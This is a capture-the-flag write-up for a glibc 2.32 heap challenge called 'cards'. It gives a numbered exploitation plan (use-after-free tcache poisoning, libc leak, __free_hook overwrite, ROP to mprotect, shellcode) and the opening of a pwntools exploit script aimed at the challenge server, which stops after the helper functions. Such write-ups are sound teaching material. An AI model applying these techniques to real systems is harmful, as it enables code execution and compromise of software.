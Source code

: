 This can be easily bypassed after getting the heap leak.

So my solution includes.
1. Leak heap
2. overwrite fd pointer with tcache-per-thread struct. #UAF-HERE
3. Keep an 0x100 sized chunk.
4. get allocation to tcache-per-thread struct.
5. After getting to tcache-per-thread. Change the tcache[idx] of 0x100 size to 7.
6. Free 0x100 sized chunk. -> The chunk goes into unsortedbin.
7. Use edit function to change tcache[idx] of 0x100 to 0. So it doesn't go look into tcache.
8. Allocate back and get libc leaks. since the pointers are not initialized after freeing the chunk.
9. Then add __free_hook to tcache-per-thread struct using edit function.
10. There is a other option which is not shown in menu. `Secret-name` which reads 0x40 bytes of userdata on to the stack.
11. So We send our rop-chain there to execute mprotect call on heap. By changing free hook to add_rsp + 0xd8; ret ; ROPgadget.
12. Then execute our shellcode on heap and open-read-write flag.


#### exploit
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF("./cards")

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a,env={"LD_PRELOAD":"./libc-2.32.so"}, **kw)

gdbscript = '''
continue
'''.format(**locals())
#io = start()
io = remote("poseidonchalls.westeurope.cloudapp.azure.com",9004)
#######utils
def add(size,name):
	io.sendlineafter("Choice: ","1")
	io.sendafter("card: ",str(size))
	io.sendafter("color: ","HKHKHKH");	
	io.sendafter("name: ",name)

def view(idx):
	io.sendlineafter("Choice: ","4")
	io.sendafter("card: ",str(idx))

def remove(idx):
	io.sendlineafter("Choice: ","2")
	io.sendafter("card: ",str(idx))

def edit(idx,name):
	io.sendlineafter("Choice: ","3")
	io.sendafter("card: ",str(idx))
	io.sendafter("name: ",name)

def sendrop(rop):
	io.sendlineafter("Choice: ","6")
	io.sendafter("name: ",rop)

def mask(heapbase,target):
	return (heapbase >> 0xc) ^ target
#------------------------------------------------------
```